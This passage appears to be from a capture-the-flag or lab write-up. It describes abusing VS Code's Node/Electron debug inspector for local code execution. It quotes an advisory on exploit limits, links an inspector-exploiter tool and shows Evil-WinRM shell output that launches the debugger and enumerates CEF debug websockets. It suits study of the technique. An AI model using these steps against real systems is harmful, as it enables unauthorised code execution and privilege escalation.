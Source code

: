 > Exploitation There are two main limitations to the exploitability, that are: 1. the debug port binds to 127.0.0.1 2. a random TCP port is used every execution
>
> Due to these limitations, the issue cannot be remotely exploited. If instead a fixed TCP port was used, the issue could have been exploited via the browser using a DNS Rebinding attack to bypass the Same Origin Policy. To be able to execute arbitary JavaScript code, we need first to retrieve the WebSocket link using a HTTP GET request to /json URL and then connect to it using the WebSocket protocol.

[https://github.com/phra/inspector-exploiter](https://github.com/phra/inspector-exploiter)

```text
*Evil-WinRM* PS C:\Program Files\Microsoft VS Code\bin> more code.cmd
@echo off
setlocal
set VSCODE_DEV=
set ELECTRON_RUN_AS_NODE=1
"%~dp0..\Code.exe" "%~dp0..\resources\app\out\cli.js" %*
endlocal
```

text

```text
*Evil-WinRM* PS C:\Program Files\Microsoft VS Code\bin> more ../\resources\app\out\cli.js
/*---------------------------------------------------------------------------------------------
 *  Copyright (c) Microsoft Corporation. All rights reserved.
 *  Licensed under the MIT License. See License.txt in the project root for license information.
 *--------------------------------------------------------------------------------------------*/
"use strict";const bootstrap=require("./bootstrap");bootstrap.avoidMonkeyPatchFromAppInsights(),bootstrap.configurePortable(),bootstrap.enableASARSupport(),require("./bootstrap-amd").load("vs/code/node/cli");
//# sourceMappingURL=https://ticino.blob.core.windows.net/sourcemaps/f06011ac164ae4dc8e753a3fe7f9549844d15e35/core/cli.js.map
```

text

```text
*Evil-WinRM* PS C:\Program Files\Microsoft VS Code\bin> ./code --inspect
code.cmd : Debugger listening on ws://127.0.0.1:9229/a377826b-0406-4fce-8a79-41ac482f80fb
    + CategoryInfo          : NotSpecified: (Debugger listen...79-41ac482f80fb:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
For help, see: https://nodejs.org/en/docs/inspector
```

text

```text
*Evil-WinRM* PS C:\Users\alcibiades> ./c.exe
c.exe : [2020/07/24 07:42:30:1971] U: There are 3 tcp sockets in state listen.
    + CategoryInfo          : NotSpecified: ([2020/07/24 07:...n state listen.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2020/07/24 07:42:50:2430] U: There were 1 servers that appear to be CEF debuggers.
[2020/07/24 07:42:50:2430] U: ws://127.0.0.1:7437/68e9868e-29b8-48fc-9612-8be4aea95ccd
```
